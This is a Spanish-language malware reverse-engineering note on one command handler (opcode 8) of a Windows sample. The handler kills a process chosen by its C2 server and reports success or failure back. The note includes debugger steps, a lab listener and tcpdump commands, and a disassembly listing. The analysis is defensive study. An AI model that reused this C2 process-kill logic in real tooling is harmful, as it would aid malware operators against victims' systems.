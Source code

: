 # FUN_00402440 - Opcode 8

La función FUN_00402440 tiene un propósito claro: terminar un proceso dado por ID, usando una lógica condicional para notificar al servidor C2 (Command & Control) si tuvo éxito o no.
- Toma un puntero a un identificador de proceso	param_2
- Usa OpenProcess y TerminateProcess	Intenta matar el proceso
- Informa al C2 si tuvo éxito o no	usando Ordinal_19 (probablemente send)
- Usa 0x30 (OK) o 0x31 (FAIL)	como códigos de estado

_____________________________________
# Análisis dinámico de FUN_00402440

## Listener en python para poder probar este opcode
[listener-opcode8](../analisis-dinamico/listener-opcode8.py)

En la MV Windows determinamos que proceso va a ser enviado desde el Host C2 para ser detenido.  
Activamos en la MV Remnux un listener para probar este opcode en x32dbg y hacemos una captura de los paquetes que circulan por la red:
```
sudo tcpdump -i any host 10.0.0.4
python3 listener.py --dry-run --pid 5678
```


## Entrada del handler del opcode 8
- FUN_00402440 (tu función objetivo).
  Nos deja ver el estado justo antes del parseo y las llamadas a Win32/WSA.

- Parseo del PID (atoi/conv)
  - FUN_0040296d (la que llamas antes de OpenProcess).

✔️ Al entrar, mira el puntero que llega (es la cadena ASCII con el PID).

✔️ Al salir, EAX = PID (decimal). Confirma que es el que esperas.

Abrir el proceso

KERNEL32.OpenProcess (BP en import o en el thunk IAT).

En la llamada desde tu función:

[ESP+04] = dwDesiredAccess = 0x00000001 (PROCESS_TERMINATE)

[ESP+08] = bInheritHandle = 0

[ESP+0C] = dwProcessId = **EAX** devuelto por FUN_0040296d`

Al retorno, EAX = handle (0 = fallo).

✔️ Aprovecha para forzar ramas: pon EAX=0 (simula fallo) o EAX=0xDEAD (simula éxito).

Terminar el proceso

KERNEL32.TerminateProcess

En la llamada:

[ESP+04] = hProcess (lo que devolvió OpenProcess)

[ESP+08] = uExitCode = 0xFFFFFFFF (−1)

Al retorno, EAX = BOOL (0 = fallo, ≠0 = éxito).

✔️ Aquí puedes forzar éxito (EAX=1) o fallo (EAX=0) sin tocar nada más.

Enviar la respuesta al C2 (2 bytes)

WS2_32.send (en tu bin aparece como Ordinal_19).

En la llamada:

[ESP+04] = socket

[ESP+08] = lpBuffer → apunta a "0\0" o "1\0"

[ESP+0C] = len = 2

✔️ Verifica el primer byte: 0x30 (‘0’) = éxito, 0x31 (‘1’) = fallo.

_____________________________________

# FUN_00402440 Decompilada

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __thiscall FUN_00402440(void * this, undefined
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             void *            ECX:4 (auto)   this
             undefined4        Stack[0x4]:4   param_1
             byte *            Stack[0x8]:4   param_2                                 XREF[1]:     00402440(R)  
                             FUN_00402440                                    XREF[1]:     FUN_004012f0:004017b7(c)  
        00402440 8b 44 24 08     MOV        EAX,dword ptr [ESP + param_2]
        00402444 50              PUSH       EAX
        00402445 e8 23 05        CALL       FUN_0040296d                                     undefined FUN_0040296d(void * th
                 00 00
        0040244a 83 c4 04        ADD        ESP,0x4
        0040244d 50              PUSH       EAX
        0040244e 6a 00           PUSH       0x0
        00402450 6a 01           PUSH       0x1
        00402452 ff 15 64        CALL       dword ptr [->KERNEL32.DLL::OpenProcess]          = 000099e2
                 90 40 00
        00402458 6a ff           PUSH       -0x1
        0040245a 50              PUSH       EAX
        0040245b ff 15 60        CALL       dword ptr [->KERNEL32.DLL::TerminateProcess]     = 000099ce
                 90 40 00
        00402461 85 c0           TEST       EAX,EAX
        00402463 6a 00           PUSH       0x0
        00402465 6a 02           PUSH       0x2
        00402467 74 11           JZ         LAB_0040247a
        00402469 8b 4c 24 0c     MOV        this,dword ptr [ESP + 0xc]
        0040246d 68 94 a1        PUSH       DAT_0040a194                                     = 30h    0
                 40 00
        00402472 51              PUSH       this
        00402473 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        00402479 c3              RET
                             LAB_0040247a                                    XREF[1]:     00402467(j)  
        0040247a 8b 54 24 0c     MOV        EDX,dword ptr [ESP + 0xc]
        0040247e 68 90 a1        PUSH       DAT_0040a190                                     = 31h    1
                 40 00
        00402483 52              PUSH       EDX
        00402484 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        0040248a c3              RET
        0040248b 90              ??         90h
        0040248c 90              ??         90h
        0040248d 90              ??         90h
        0040248e 90              ??         90h
        0040248f 90              ??         90h

```
